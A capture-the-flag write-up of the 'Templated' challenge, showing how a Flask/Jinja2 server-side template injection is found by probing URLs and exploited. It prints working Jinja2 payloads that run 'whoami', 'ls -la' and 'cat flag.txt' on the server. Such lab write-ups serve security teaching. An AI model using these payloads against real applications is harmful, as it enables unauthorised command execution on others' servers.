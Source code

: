 ```yaml
---
layout: default
title : muzec - Templated Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/119482850-55be3a80-bd22-11eb-89f7-fd6a1fed8e7b.png)

Just a simple Server Side Template Injection (SSTI) .

On the web page i think we have all the hint we can ask for we already know it Proudly powered by Flask/Jinja2 so let try to confirm it.

![image](https://user-images.githubusercontent.com/69868171/119483235-c06f7600-bd22-11eb-8b1d-3a38ba6f6a32.png)

`http://138.68.141.81:32732/$` we get 404 not found but our input reflect let try injecting another command.

![image](https://user-images.githubusercontent.com/69868171/119483492-0593a800-bd23-11eb-9941-ccd46c750a2d.png)

`http://138.68.141.81:32732/${` Boom again let find the crash point.

![image](https://user-images.githubusercontent.com/69868171/119483686-396ecd80-bd23-11eb-9c70-df465133ad7c.png)

Boom a crash point `http://138.68.141.81:32732/${{` now we can easily generate our payload one fresh payload coming up.

`138.68.141.81:32732/{{config.__class__.__init__.__globals__['os'].popen('whoami').read()}}`
![image](https://user-images.githubusercontent.com/69868171/119861084-fd836600-bee4-11eb-801e-2f9e6730f121.png)


![image](https://user-images.githubusercontent.com/69868171/119484124-b26e2500-bd23-11eb-8738-7c7721b1e252.png)

Boom we are the root user cool let list directory.

![image](https://user-images.githubusercontent.com/69868171/119484303-e0ec0000-bd23-11eb-89b4-f6f0ace0a733.png)

![image](https://user-images.githubusercontent.com/69868171/119484373-f3663980-bd23-11eb-9e5a-68096889a917.png)

`138.68.141.81:32732/{{config.__class__.__init__.__globals__['os'].popen('ls -la').read()}}`
![image](https://user-images.githubusercontent.com/69868171/119861942-f14bd880-bee5-11eb-8105-77f8cc784728.png)


We can see the flag.txt let cat it and we are done.

`138.68.141.81:32732/{{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read()}}`
![image](https://user-images.githubusercontent.com/69868171/119862038-13455b00-bee6-11eb-98ed-827367a2aaef.png)


Nah not going to show you the flag get it yourself lol.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>


